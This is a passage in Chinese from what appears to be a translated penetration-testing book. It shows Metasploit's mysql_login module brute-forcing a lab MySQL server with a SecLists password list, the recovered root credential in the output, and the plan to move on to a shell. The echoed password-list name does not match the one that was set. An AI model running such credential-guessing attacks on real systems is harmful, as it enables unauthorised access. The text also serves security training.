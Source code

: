 对于字典文件，`PASS_FILE` 将设置为 `SecLists` 中的 `10-million-password-list-top-500.txt` 文件，内容如下。这是从一个包含 1000 万个密码的大字典中提取的 500 个最常见的密码：

```
msf auxiliary(mysql_login) > set PASS_FILE **~/tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-500.txt**
PASS_FILE => ~/tools/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
msf auxiliary(mysql_login) >
```

这是一个不错的起点。还有其他不同的 1000 万密码列表文件变体，如果这个无法产生有效的登录，我们可以尝试前 1000 个、10000 个或其他字典。

与 Metasploit 中的其他模块一样，`run` 命令将开始执行：

```
msf auxiliary(mysql_login) > **run**

```

几分钟后，我们收到了一些好消息：

```
[+] 10.0.5.198:3306       - MYSQL - Success: **'root:789456123'**
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(mysql_login) >
```

看起来我们已经找到了一个有效的登录凭证，适用于与目标应用程序运行在同一台机器上的 MySQL 实例。这个数据库可能是 API 使用的数据库，也可能不是。我们将进一步检查，看看能否找到办法启动一个 shell，完全入侵 E Corp API 服务器，并间接入侵我们的目标。

我们可以再次通过 `mysql` 命令从我们的 Kali Linux 实例直接连接。`-u` 选项指定用户名，`-p` 选项让我们传入新发现的密码。选项与其值之间没有空格。如果我们省略 `-p` 的值，客户端将提示我们输入密码。

以下截图展示了成功连接到数据库服务并使用 `show databases;` SQL 查询列出可用数据库的情况：

![凭证猜测](img/B09238_03_05.jpg)
